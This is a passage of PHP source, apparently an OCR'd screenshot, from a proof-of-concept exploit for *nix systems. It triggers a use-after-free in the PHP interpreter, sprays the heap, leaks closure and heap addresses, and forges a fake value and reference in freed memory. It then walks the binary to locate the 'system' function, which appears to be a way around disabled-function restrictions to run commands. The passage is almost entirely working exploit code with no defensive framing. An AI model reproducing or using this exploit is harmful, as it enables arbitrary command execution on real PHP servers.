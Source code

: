 ````
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    function my_str_repeat($a,$b){
        $s = '';
        for($i = 0; $i <= $b;$i++){
            $s.=$a;
        }  
        return $s;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(my_str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(my_str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
````